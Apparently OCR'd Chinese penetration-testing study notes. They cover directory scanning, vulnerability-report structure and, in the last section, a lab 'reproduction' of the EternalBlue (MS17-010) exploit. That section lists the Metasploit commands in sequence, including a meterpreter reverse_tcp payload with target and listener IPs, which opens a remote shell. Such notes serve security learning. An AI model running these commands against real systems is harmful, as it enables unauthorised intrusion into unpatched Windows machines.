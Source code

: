 **@** **爬行网站目录？？？**

asp

.net

php

框架类的不建议扫描

> JAVA框架
>
> <http://domain/1/2/3/4/hello>
>
> index.php

**@** **使用漏洞脚本扫描**

**@** **保存扫描结果**

 

### **关于漏洞**

漏洞名称

漏洞风险等级

高危|中危|低危|信息漏洞

 

### **漏洞的描述**

漏洞的危害

前半部分

后半部分

修复建议

前半部分

后半部分

 

## **永恒之蓝漏洞复现**

 

**工具：MSF**

**meta****sploit framework**

**具体过程**

> **·****msfconsole**
>
> **·****search MS17-010**
>
> **·use exploit/windows/smb/ms17_010_eternalblue**
>
> **·set payload windows/x64/meterpreter/reverse_tcp**
>
> **·set RHOSTS 192.168.1.143    //目标靶机ip**
>
> **·set LHOST 192.168.1.142    //本机IP**
>
> **·exploit**
